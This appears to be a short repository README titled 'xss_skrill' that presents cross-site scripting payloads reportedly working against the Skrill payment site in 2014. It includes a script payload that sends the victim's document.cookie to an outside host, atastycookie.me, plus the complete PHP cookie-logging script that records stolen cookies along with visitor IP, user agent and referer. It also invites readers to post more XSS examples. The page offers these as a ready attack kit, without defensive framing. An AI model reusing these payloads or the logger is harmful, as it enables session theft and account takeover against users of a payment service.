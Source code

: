 xss_skrill
==========

*xss work: 9,10,11,12.10.2014*

**Demo:** http://atastycookie.me/skrill/


Write you example of XSS and we post it here :)

1) `"><script>alert()</script>` 

2) `"><script language= "JavaScript">document.location="http://atastycookie.me/skrill/xss.php?cookie=" + document.cookie;document.location="http://atastycookie.me"</script>`

    <?php 
    
    function GetIP() 
    { 
    	if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) 
    		$ip = getenv("HTTP_CLIENT_IP"); 
    	else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
    		$ip = getenv("HTTP_X_FORWARDED_FOR"); 
    	else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) 
    		$ip = getenv("REMOTE_ADDR"); 
    	else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) 
    		$ip = $_SERVER['REMOTE_ADDR']; 
    	else 
    		$ip = "unknown"; 
    	return($ip); 
    } 
    
    function logData() 
    { 
    	$ipLog="log.txt"; 
    	$cookie = $_SERVER['QUERY_STRING']; 
    	$register_globals = (bool) ini_get('register_gobals'); 
    	if ($register_globals) $ip = getenv('REMOTE_ADDR'); 
    	else $ip = GetIP(); 
    
    	$rem_port = $_SERVER['REMOTE_PORT']; 
    	$user_agent = $_SERVER['HTTP_USER_AGENT']; 
    	$rqst_method = $_SERVER['METHOD']; 
    	$rem_host = $_SERVER['REMOTE_HOST']; 
    	$referer = $_SERVER['HTTP_REFERER']; 
    	$date=date ("l dS of F Y h:i:s A"); 
    	$log=fopen("$ipLog", "a+"); 
    
    	if (preg_match("/\bhtm\b/i", $ipLog) || preg_match("/\bhtml\b/i", $ipLog)) 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE{ : } $date | COOKIE:  $cookie <br>"); 
    	else 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host |  Agent: $user_agent | METHOD: $rqst_method | REF: $referer |  DATE: $date | COOKIE:  $cookie \n\n"); 
    	fclose($log); 
    } 
    
    logData(); 
    
    ?>
